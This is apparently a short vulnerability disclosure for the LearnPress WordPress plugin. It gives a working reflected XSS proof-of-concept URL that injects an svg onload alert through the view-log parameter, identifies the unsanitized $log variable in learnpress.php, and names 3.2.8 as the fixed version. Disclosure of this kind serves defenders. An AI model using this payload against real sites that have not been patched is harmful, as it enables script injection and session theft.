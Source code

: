 # wpp_LearnPress

the Wordpress Plugin learnpress has a reflected XSS.


Details:
* Plugin: https://wordpress.org/plugins/learnpress/
* Vulnerable Version: 3.2.7.9
* Payload: http://127.0.0.1/wordpress/wp-admin/edit.php?post_type=lp_course&view-log=aaa%22%3Csvg/onload=%22alert(1)%22/%3E
![unnamed](https://user-images.githubusercontent.com/32059182/98671966-028d2780-2390-11eb-90b7-06d986a650a4.png)
And the issue in the file: ./learnpress/learnpress.php: 
![image](https://user-images.githubusercontent.com/32059182/98671944-f99c5600-238f-11eb-97d8-5b80657ec34b.png)
the variable $log output without sanitize.


Fix:
* Fix Version: 3.2.8
* patch: https://plugins.trac.wordpress.org/changeset?old_path=%2Flearnpress&old=2413726&new_path=%2Flearnpress&new=2413726&sfp_email=&sfph_mail=

Thank you~
